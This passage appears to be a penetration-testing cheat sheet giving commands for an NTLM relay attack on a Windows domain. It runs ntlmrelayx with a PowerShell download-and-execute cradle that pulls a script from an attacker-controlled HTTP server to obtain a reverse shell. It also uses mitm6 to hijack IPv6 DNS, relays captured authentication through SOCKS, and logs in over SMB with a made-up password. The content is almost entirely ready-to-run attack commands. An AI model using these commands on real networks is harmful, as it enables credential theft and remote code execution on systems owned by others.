 ```bash
# If that privileged user authenticates on that host somehow, we could dump creds or even run commands and get a revshell
ntlmrelayx.py -tf targets -smb2support -c "powershell IEX(New-Object Net.WebClient).downloadString('http://10.0.2.41:8000/Inv-Pow.ps1')"
# In case IPv4 is not available, we try with IPv6
sudo mitm6 -d s4vicorp.local # with this on any machine on the domain the default IPv6 gateway and the default DNS should be attacker's IPv6
ntlmrelayx.py -6 -wh $ATTACKER_IP -t smb://$TARGET_IP -socks -debug -smb2support
# If we catch a privilege authentication on the target IP and is AdminStatus TRUE (execute command below)
ntlmrelayx> socks
# Then we can authenticate via SMB with that user/target and providing any invented/fake/whatever password
proxychains nxc smb $TARGET_HOST -u 'user' -p 'inventedPassword' -d 'domain' 2>/dev/null
```
{% endcode %}
